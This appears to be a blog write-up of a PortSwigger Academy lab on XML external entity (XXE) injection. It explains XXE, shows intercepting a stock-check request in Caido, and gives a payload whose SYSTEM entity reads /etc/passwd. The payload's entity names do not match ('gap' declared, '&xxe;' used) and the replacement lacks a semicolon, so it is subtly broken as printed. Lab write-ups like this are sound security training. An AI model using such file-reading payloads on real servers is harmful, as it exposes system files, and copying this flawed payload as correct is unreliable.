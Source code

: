 ```yaml
---
title: "XML external entity injection XXE"
date: 2025-05-17T16:06:04+01:00
draft: false
tags: ["Security", "XXE", "web", "Portswigger"]
categories: ["web"]
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab

![](1.png)

Start Caido and look for the post request once you use the "checkstock" button on the website.

![](2a.png)

Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```

![](2.png)

![](3.png)

Yay!